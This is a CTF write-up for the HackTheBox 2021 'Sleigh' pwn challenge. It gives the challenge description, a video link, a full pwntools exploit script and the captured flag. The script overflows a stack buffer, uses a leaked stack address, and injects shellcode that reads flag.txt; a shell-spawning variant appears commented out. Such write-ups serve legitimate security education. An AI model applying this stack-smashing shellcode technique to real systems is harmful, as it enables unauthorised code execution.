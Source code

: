 ```yaml
---
name: Sleigh (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Pwn
description: Writeup for Sleigh (Pwn) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Sleigh

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/deg0CQwwN-M/0.jpg)](https://youtu.be/deg0CQwwN-M?t=2843s "HTB Cyber Apocalypse CTF 2021: Sleigh")

## Challenge Description

> The Elves have messed up with Santa's sleigh! Without it, he will not be able to deliver any gifts!! Help him repair it and save the holidays!

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

def find_ip(payload):
    p = process(exe)
    p.sendlineafter(b'>', b'1')  # Chase joker
    p.sendlineafter(b'>', payload)  # Cyclic pattern
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    # ip_offset = cyclic_find(p.corefile.pc)  # x86
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './sleigh'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(500))

# Start program
io = start()

# Get the stack address (where out navigation commands will go)
io.sendlineafter(b'>', b'1')
io.recvline()
stack_addr = int(re.search(r"(0x[\w\d]+)", io.recvlineS()).group(0), 16)
info("leaked stack_addr: %#x", stack_addr)

# Need to pop registers at the beginning to make room on stack
shellcode = asm(shellcraft.popad())
# Build shellcode (cat flag.txt or spawn shell)
shellcode += asm(shellcraft.cat('flag.txt'))
# shellcode += asm(shellcraft.sh())
# Pad shellcode with NOPs until we get to return address
padding = asm('nop') * (offset - len(shellcode))

# Build the payload
payload = flat([
    padding,
    shellcode,
    stack_addr
])

io.sendlineafter(b'>', payload)  # Chase joker

# Got Shell?
io.interactive()
```
{% endcode %}

Flag: `HTB{d4sh1nG_thr0ugH_th3_sn0w_1n_4_0n3_h0r53_0p3n_sl31gh!!!}`

